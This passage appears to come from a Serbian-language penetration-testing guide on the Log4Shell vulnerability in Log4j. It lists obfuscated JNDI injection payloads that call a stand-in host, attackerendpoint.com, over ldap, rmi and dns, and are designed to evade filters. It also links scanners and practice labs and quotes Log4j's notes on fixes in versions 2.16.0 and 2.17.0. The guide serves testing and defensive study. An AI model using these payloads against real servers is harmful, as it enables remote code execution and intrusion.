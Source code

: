 ```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```

### Automatski skeneri

* [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
* [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
* [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
* [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
* [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
* [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
* [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
* [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Pronađite lokalne ranjive biblioteke

### Laboratorije za testiranje

* [**LogForge HTB mašina**](https://app.hackthebox.com/tracks/UHC-track)
* [**Try Hack Me Solar soba**](https://tryhackme.com/room/solar)
* [**https://github.com/leonjza/log4jpwn**](https://github.com/leonjza/log4jpwn)
* [**https://github.com/christophetd/log4shell-vulnerable-app**](https://github.com/christophetd/log4shell-vulnerable-app)

## Nakon eksploatacije Log4Shell-a

U ovom [**CTF writeup-u**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/) dobro je objašnjeno kako je potencijalno **moguće zloupotrebiti** neke funkcije **Log4J**-a.

Na [**stranici sa bezbednošću**](https://logging.apache.org/log4j/2.x/security.html) Log4j-a postoje neke zanimljive rečenice:

> Od verzije 2.16.0 (za Java 8), **funkcionalnost pretrage poruka je potpuno uklonjena**. **Pretrage u konfiguraciji i dalje funkcionišu**. Pored toga, Log4j sada podrazumevano onemogućava pristup JNDI-ju. Pretrage JNDI-ja u konfiguraciji sada moraju biti eksplicitno omogućene.

> Od verzije 2.17.0 (i 2.12.3 i 2.3.1 za Java 7 i Java 6), **samo se niske pretrage u konfiguraciji rekurzivno proširuju**; u bilo kojoj drugoj upotrebi, samo se rešava pretraga na vrhu, a bilo kakve ugnežđene pretrage se ne rešavaju.

To znači da podrazumevano možete **zaboraviti na korišćenje bilo kog `jndi` eksploata**. Štaviše, da biste izvršili **rekurzivne pretrage**, morate ih imati konfigurisane.
